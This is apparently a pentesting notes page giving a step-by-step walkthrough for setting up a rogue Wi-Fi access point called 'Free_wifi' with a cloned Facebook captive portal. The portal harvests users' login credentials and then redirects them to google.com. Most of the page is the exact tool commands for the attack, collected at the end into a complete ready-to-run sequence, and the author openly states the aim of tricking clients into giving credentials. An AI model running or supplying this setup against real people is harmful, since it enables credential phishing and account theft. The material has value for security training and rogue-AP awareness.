





# Using captive portal attack

## Creating a fake access point with an extra captive portal

What can we do using a captive portal?

* Basically, do phishing by cloning official login portals and trick or clients to give us credentials or sensitive information.

### Configuration

<figure><figcaption></figcaption></figure>

* First, we define the SSID (Name of the access point), interface and ignoring pydns\_server.

<figure><figcaption></figcaption></figure>

* In this case I'll be using a facebook captive portal to trick the users, so to install it just do the following.

```bash
use misc.extra_captiveflask
download
```

<figure><figcaption></figcaption></figure>

* Now I'll select the facebook template.

```bash
install facebook # simple as that
back
```

<figure><figcaption></figcaption></figure>

* Now we need to choose what proxy we want to use.
* In this case we will use the captiveflask proxy.
* Just type _**`set proxy captiveflask`**_

<figure><figcaption></figcaption></figure>

* Here in the setting options, I'll type _**`set captiveflask.force_redirect_to_url https://google.com`**_
* This will redirect the user to **google.com** once he types the requested credentials.

<figure><figcaption></figcaption></figure>

### Victims phone

<figure><figcaption></figcaption></figure>

### Attackers overview

<figure><figcaption></figcaption></figure>

### Commands used

```bash
set interface wlan0
set ssid Free_wifi
use misc.extra_captiveflask
download
install facebook # simple as that
back
set proxy captiveflask
set captiveflask.force_redirect_to_url https://google.com
set captiveflask.facebook true
start
```
